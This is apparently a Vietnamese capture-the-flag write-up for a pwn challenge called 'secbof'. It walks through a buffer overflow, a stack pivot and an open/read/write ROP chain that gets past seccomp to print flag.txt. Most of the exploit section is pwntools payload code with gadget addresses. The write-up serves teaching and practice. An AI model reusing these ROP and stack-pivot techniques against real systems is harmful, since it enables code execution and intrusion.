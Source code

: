 # secbof
## Challenge
[chall](secbof)
## Find vulnerabilities
- Đọc qua code ta thấy lỗ hổng buffer overflow và lớp bảo vệ seccomp trong hàm install_filter

![alt text](../image/image-13.png)
- Kiểm tra seccomp xem chúng ta được dùng những hàm nào:

![alt text](../image/image-14.png)

Chúng ta được dùng các hàm open, read, write và exit
- Kiểm tra các lớp bảo vệ:

![alt text](../image/image-15.png)

NX bật để chống shellcode và PIE tắt
- Như vậy ta có thể exploit theo các bước sau:

B1: Stack pivot vào vùng nhớ ngoài

B2: Dùng ROPgadget để in ra flag
## Exploit
Bước 1: Stack pivot vào vùng nhớ ngoài
```python3
rw_section = 0x4c6a00
payload = b'a'*0x80 + p64(rw_section) + p64(exe.sym['main'] + 97)
p.sendlineafter(b'Input> ', payload)
```
Bước 2: Dùng ROPgadget
- Để có thể open, read, write thì chúng ta phải thỏa mãn điều kiện sau:

![alt text](../image/image-16.png)

- Lấy lần lượt các ROPgadget pop rdi, pop rsi, pop rdx, pop rax và syscall
- Lần nhập tiếp theo, chúng ta truyền vào `flag.txt\0`, tiếp tục stack pivot và truyền vào các syscall. Chúng ta truyền vào các hàm open, read, write theo lý thuyết:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
syscall = 0x0000000000401e04
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Có 1 vấn đề là khi chúng ta thực hiện syscall read thì thanh ghi rax có giá trị bằng 0 có nghĩa rằng chương trình không mở được file `flag.txt`. Lỗi nằm ở ROP syscall

![alt text](../image/image-17.png)

![alt text](../image/image-18.png)

Sau khi thực hiện syscall xong thì chương trình nhảy vào 0x401e00, đó là điều chúng ta không mong muốn.
- Do đó, chúng ta phải tìm ROP syscall có câu lệnh ret và không được nhảy hay gọi bất cứ địa chỉ hoặc thanh ghi nào.

Đây là syscall chúng ta cần tìm kiếm

![alt text](../image/image-19.png)

- Sửa payload:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
# syscall = 0x0000000000401e04
syscall = 0x4816f2
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Chương trình quay lại hàm open. Chúng ta phải sửa lại rbp trước khi ret ở hàm main và phải thêm 1 địa chỉ phù hợp nữa sau syscall open để nhảy vào pop rax tiếp theo vì sau syscall có lệnh pop rbp
```python3
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section + 0x58)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall) + p64(0x4c6ae0 - 0x8)
```
Trong đó, rw_section + 0x58 trỏ tới 0x4c6ae0 - 0x8 và 0x4c6ae0 - 0x8 trỏ tới syscall open để khi nhảy tới lệnh ret thì chương trình sẽ thực thi syscall tiếp theo 
- Chạy syscall read thất bại.

![alt text](../image/image-20.png)

- Lý do là bởi chúng ta chưa chuyển dữ liệu từ thanh ghi rax vào rdi, do đó ta phải tìm thêm 1 ROPgadget mới

`ROPgadget --binary chal | grep "xchg edi, eax"`

![alt text](../image/image-21.png)
![alt text](../image/image-22.png)

- Kiểm tra thấy ROPgadget này hợp lệ, ta sửa lại payload:
```python3
# read
payload += p64(xchg_edi_eax) + b'a'*0x38 + p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
Ta phải truyền thêm 0x38 bytes rác vì có lệnh `add rsp, 0x38`
- Đến đây thì chương trình chạy thành công và ta đã lấy được flag
## Payload
[script](solve.py)
## Flag
```utflag{r0p_with_4_littl3_catch}```